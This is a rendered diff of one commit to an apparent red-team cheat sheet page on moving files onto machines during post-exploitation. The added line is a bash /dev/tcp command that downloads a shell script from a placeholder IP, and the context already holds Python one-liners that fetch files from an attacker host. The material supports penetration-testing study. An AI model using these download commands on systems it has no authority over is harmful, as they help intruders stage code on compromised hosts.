

Before and after one commit to 0x72303074/Red-Team-Manual, a Markdown page: 3. Privesc & Post-Exploit/3a. Transferring Files.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/3. Privesc & Post-Exploit/3a. Transferring Files.md
+++ b/3. Privesc & Post-Exploit/3a. Transferring Files.md
@@ -29,6 +29,7 @@
                     Bash Script Manual Curl:  https://www.hackingdream.net/2019/12/file-transfer-cheat-sheet-for-pentesters-oscp.html
                     Or in browser: http://...
                     Python:  python -c ‘from urllib import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’;  \\  python3 -c ‘from urllib.request import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’
+                    Basic Bash:  bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /youfile.sh HTTP/1.1\r\nHost: ip\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
             Windows:
                 Server:
                     python -m SimpleHTTPServer [port]  \\  python -m http.server [port]
```
